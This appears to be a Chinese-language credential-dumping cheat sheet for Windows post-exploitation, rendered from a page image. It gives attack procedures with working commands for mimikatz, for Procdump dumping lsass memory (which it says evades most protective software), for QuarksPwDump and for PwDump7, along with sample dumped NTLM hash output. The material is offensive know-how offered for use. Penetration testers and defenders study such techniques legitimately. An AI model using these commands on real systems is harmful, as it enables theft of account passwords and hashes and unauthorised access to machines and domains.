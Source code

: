 ```
1. mimikatz

Mimikatz是一种非常流行的后渗透利用工具,可用于转储lsass进程并从中提取NTLM哈希值.

攻击流程:

mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

```
2. Procdump

Procdump是微软官方的工具,使用该工具可以把lsass的内存dump下来,可以绕过大多数的防护软件.
lsass进程里面存放着我们登录的账号密码等信息.
只要登录机器那么lass进程就会记录你的登录凭证,通过lsass我们就能够获取到机器的明文密码和hash.

首先使用procdump将lsaa中的内存dump下来.
lsass进程获取内存hash,lsass.exe进程会保存机器登录过的用户密码(2008之前密码是明文存储,2012和2016都是密文hash存储)

攻击流程:

procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

```
3. QuarksPwDump

支持Windows XP/2003/Vista/7/2008版本,稳定.
可抓取windows用户凭据,包括:本地账户,域用户,缓存的域账号和Bitlocker

攻击流程:

quarks-pwdump.exe --dump-hash-local
```

```
4. PwDump7

Pwdump7 从文件系统中提取二进制文件SAM和SYSTEM文件来运行,然后提取哈希值.

C:\Users\Administrator\Desktop\pwdump-master>PwDump7.exe
Pwdump v7.1 - raw password extractor
Author: Andres Tarasco Acuna
url: http://www.514.es

Administrator:500:C9A384267FD78F7AFC74BA281EA484BC:6E752C9FD7AA4C144171F043249E5FD4:::
Guest:501:F7E9D61425661494CF8E483AC94651A3:2B7462EF81B22006487A4E5C356B7D60:::
:503:40939CB3C5D7FDEBB8862601A69B71E7:2E5FA8499015497AFC6E0A581C6DF3BA:::
Σ:504:NO PASSWORD*********************:NO PASSWORD*********************:::
```

```
5. createdump

https://twitter.com/bopin2020/status/1366400799199272960/photo/1
https://lolbas-project.github.io/lolbas/OtherMSBinaries/Createdump/
```
